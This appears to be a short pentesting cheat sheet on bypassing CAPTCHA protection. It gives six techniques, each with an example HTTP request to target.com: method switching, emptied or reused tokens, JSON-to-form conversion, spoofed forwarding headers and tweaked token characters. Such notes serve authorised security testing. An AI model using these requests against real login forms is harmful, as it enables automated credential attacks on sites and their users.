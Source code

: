 # Bypass Captcha

1. Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET
```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
[...]
```

2. Try remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```
Convert to normal request
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
Try this to bypass
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```
